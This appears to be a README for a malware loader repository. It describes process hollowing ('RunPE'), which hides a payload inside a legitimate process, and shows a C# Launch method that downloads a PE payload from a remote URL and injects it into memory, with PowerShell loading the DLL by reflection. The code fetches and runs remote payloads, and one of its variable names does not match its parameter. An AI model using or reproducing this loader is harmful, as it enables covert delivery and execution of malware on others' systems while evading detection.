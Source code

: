 ## Introduction
Process hollowing is yet another tool in the kit of those who seek to hide the presence of a process. The idea is rather straight forward: a bootstrap application creates a seemingly innocent process in a suspended state. The legitimate image is then unmapped and replaced with the image that is to be hidden. If the preferred image base of the new image does not match that of the old image, the new image must be rebased. Once the new image is loaded in memory the EAX register of the suspended thread is set to the entry point. The process is then resumed and the entry point of the new image is executed.

## Overview
The Loader.cs is a C# implementation of a RunPE process hollowing technique. This technique is used to inject and execute a PE (Portable Executable) payload into a legitimate process's memory space, effectively hiding its presence.
The script.ps1 likely acts as the initiating script, which either:
Downloads the compiled Loader binary.
Executes the Loader with the required parameters (e.g., URLs or paths to payloads).

## Technical Details of Loader.cs as a DLL

Compilation to DLL:

    The Loader.cs code will be compiled into a .NET DLL (Dynamic Link Library).
    This allows external applications, including PowerShell, to interact with its public methods using reflection or direct invocation via the .NET framework.

Exposed Methods:

    Loader.cs must expose its methods, such as Launch or RunPe, as public static so they can be called from PowerShell.
    For example:

```csharp

public static void Launch(string appurl, string path)
        {
            if (!File.Exists(path))
            {
                return;
            }

            using (WebClient webClient = new WebClient())
            {
                byte[] Bytes = webClient.DownloadData(appurl);
                RunPe(Bytes, diretorio, "");
            }

        }
```
    

Interaction via PowerShell:

    The PowerShell script will use the [Reflection.Assembly]::LoadFrom() or Add-Type methods to load the DLL and call its methods.

        

